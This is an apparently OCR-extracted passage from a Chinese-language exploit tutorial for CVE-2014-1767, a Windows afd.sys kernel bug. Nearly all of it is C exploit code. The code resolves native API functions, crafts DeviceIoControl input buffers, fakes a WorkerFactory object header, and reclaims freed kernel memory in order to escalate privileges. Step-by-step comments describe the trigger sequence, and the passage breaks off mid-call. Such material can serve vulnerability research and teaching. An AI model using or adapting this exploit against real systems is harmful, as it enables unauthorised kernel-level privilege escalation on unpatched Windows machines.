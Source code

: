 ```
    fnNtSetInformationWorkerFactory = (lpfnNtSetInformationWorkerFactory)GetProcAddress(hDll, "ZwSetInformationWorkerFactory");
    if (!fnNtCreateWorkerFactory || !fnNtQueryEaFile || !fnNtSetInformationWorkerFactory)
    {
        ShowError("GetProcAddress", GetLastError());
        bRet = FALSE;
        goto exit;
    }

    // 初始化两次通信用到的输入数据
    DWORD virtualAddress = 0x13371337;
    DWORD length = ((FakeObjSize - 0x1C) / 4 - (virtualAddress % 4 ? 1 : 0)) * 0x1000;

    memset(inputBuf1, 0, INPUT_SIZE * sizeof(DWORD));
    inputBuf1[6] = virtualAddress;
    inputBuf1[7] = length;
    inputBuf1[0xA] = 1;

    memset(inputBuf2, 0, INPUT_SIZE * sizeof(DWORD));
    inputBuf2[0] = 1;
    inputBuf2[1] = 0x0AAAAAAA;

    // 构造WorkerFactory的头部分
    memset(FakeWorkerFactory, 0, FakeObjSize);
    memcpy(FakeWorkerFactory, ObjHead, 0x28);

    // 用于创建WorkerFactory
    hCompletionPort = CreateIoCompletionPort(INVALID_HANDLE_VALUE, NULL, 1337, 4);
    if (!hCompletionPort)
    {
        ShowError("CreateIoCompletionPort", GetLastError());
        bRet = FALSE;
        goto exit;
    }

exit:
    return bRet;
}
```  
  
  
接下来就是执行上面的利用步骤来实现提权：  
```
BOOL Trigger_CVE_2014_1767(HANDLE hDevice)
{
    BOOL bRet = TRUE;

    PVOID pHalQuerySystemInformation = GetHalQuerySystemInformation();

    if (!pHalQuerySystemInformation)
    {
        bRet = FALSE;
        goto exit;
    }

    // 第一次通信，释放内存
    DeviceIoControl(hDevice, 0x1207F, inputBuf1, 0x30, NULL, 0, NULL, NULL);

    // 创建WorkerFactory对象占有释放的内存
    NTSTATUS status = fnNtCreateWorkerFactory(&hWorkerFactory, 
                                              GENERIC_ALL,
                                              NULL, 
                                              hCompletionPort,
                                              (HANDLE)-1,
```